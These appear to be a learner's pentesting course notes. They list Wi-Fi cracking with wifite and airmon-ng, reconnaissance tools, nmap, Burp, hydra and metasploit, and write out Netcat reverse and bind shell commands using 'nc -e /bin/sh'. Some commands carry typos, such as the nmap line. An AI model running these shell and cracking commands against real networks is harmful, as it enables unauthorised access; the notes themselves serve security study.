

```
👉 WIFITE

iwconfig
sudo ifconfig wlp2s0 up
sudo apt install aircrack-ng
sudo apt install wifite


sudo airmon-ng check
sudo airmon-ng check kill
sudo airmon-ng start wlp2s0


sudo airmon-ng start wlp2s0mon
sudo wifite --kill
select
```


```
👉 RECONNAISSANCE TOOLS

sudo apt install webhttrack
sudo apt install telnet => Banner Grabbing 
telnet ip address
netcat ip address
whatweb ip address
dmitry -p ip address
dmitry -pb ip address
theHarvester


Sublist3r by Ahmed Aboul-Ela is arguably the simplest subdomain scraping tool that comes to mind. This light-weight Python script gathers subdomains from numerous search engines, SSL certificates, and websites such as DNS Dumpster. The set-up process on my personal machine was as straightforward as:
$ git clone https://github.com/aboul3la/Sublist3r.git
$ cd Sublist3r
$ sudo pip install -r requirements.txt
```


```
👉 NETWORK REMOTE ATTACK

sudo apt install rsh-client
```


```
👉 CYBERSECURITY MAC SPOOFING EDUREKA 10 HRS (Linux commands, Nmap, Mac Address spoofing, DDOS, Metasploit[Passwords, links, images], SQL injection)


NETWORK LINUX COMMANDS
ifconfig and ip a
ip r and route
ip n and arp -a  
netstat
traceroute
netdiscover -r 192.168.57.0/24
Netcat Reverse Shell (Pentesting Environment)
Target CONNECTING => nc 192.168.1.1 7777 -e /bin/sh or nc 192.168.1.1 7777 -e /bin/bash
Attacker LISTENING => nc -lvp 7777  # Port and nc -nvlp 7777 # Port

Netcat Bind Shell (Actual Hacking Environment)
Attacker CONNECTING => nc 192.168.1.1 7777
Target  LISTENING => nc -lvp 7777 -e /bin/sh or nc -lvp 7777 -e /bin/bash 

***********************

FILE LINUX COMMANDS
cat and less
grep
chown 
chmod +x
chmod +r
chmod +w


LINUX

/temp folder => Having pentesting scripts since it doe not require sudo permission for read and write


👉 CYBERSECURITY MENTOR COURSE PART 2

searchsploit -> Search internal data in linux

NMAP

nmpa -T4 -P- -A 192.168.87.97


Burpsuite -> Web Vulnerability Analysis
DIRBUSTER, nessus -> Vulnerability Analysis


Burpsuite -> Web login [Credential Stuffing Attack]
hydra, metasploit -> Root login via ssh/samba [Credential Stuffing Attack]


metasploit, openfuck -> Exploiting
PwnFunction -> Exploiting Buffer Overflow in Linux
cybersecurity Mentor part 2 -> Exploiting Buffer Overflow in Windows


ssh,samba,telnet
Active Directory
```

# COMMAND AND CONTROL 




